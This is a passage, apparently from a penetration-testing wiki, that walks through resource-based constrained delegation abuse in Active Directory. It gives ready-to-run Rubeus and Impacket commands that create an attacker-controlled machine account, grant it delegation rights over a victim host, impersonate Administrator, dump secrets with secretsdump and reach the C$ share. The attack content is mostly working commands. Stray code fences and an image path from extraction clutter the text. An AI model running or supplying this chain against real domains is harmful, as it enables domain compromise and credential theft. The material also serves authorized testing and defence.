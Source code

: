 ```
```
```
You can generate more tickets for more services just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
```
> [!CAUTION]
> Note that users have an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him. This property can be seen inside bloodhound.

### Linux tooling: end-to-end RBCD with Impacket (2024+)

If you operate from Linux, you can perform the full RBCD chain using the official Impacket tools:

```bash
# 1) Create attacker-controlled machine account (respects MachineAccountQuota)
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'P@ss123' -dc-ip 192.168.56.10 'domain.local/jdoe:Summer2025!'

# 2) Grant RBCD on the target computer to FAKE01$
#    -action write appends/sets the security descriptor for msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd -delegate-to 'VICTIM$' -delegate-from 'FAKE01$' -dc-ip 192.168.56.10 -action write 'domain.local/jdoe:Summer2025!'

# 3) Request an impersonation ticket (S4U2Self+S4U2Proxy) for a privileged user against the victim service
impacket-getST -spn cifs/victim.domain.local -impersonate Administrator -dc-ip 192.168.56.10 'domain.local/FAKE01$:P@ss123'

# 4) Use the ticket (ccache) against the target service
export KRB5CCNAME=$(pwd)/Administrator.ccache
# Example: dump local secrets via Kerberos (no NTLM)
impacket-secretsdump -k -no-pass Administrator@victim.domain.local
```
```
Notes
- If LDAP signing/LDAPS is enforced, use `impacket-rbcd -use-ldaps ...`.
- Prefer AES keys; many modern domains restrict RC4. Impacket and Rubeus both support AES-only flows.
- Impacket can rewrite the `sname` ("AnySPN") for some tools, but obtain the correct SPN whenever possible (e.g., CIFS/LDAP/HTTP/HOST/MSSQLSvc).

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.\
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```
```
### Abuse different service tickets

Learn about the [[silver-ticket.md#available-services|**available service tickets here**]].

## Enumerating, auditing and cleanup

```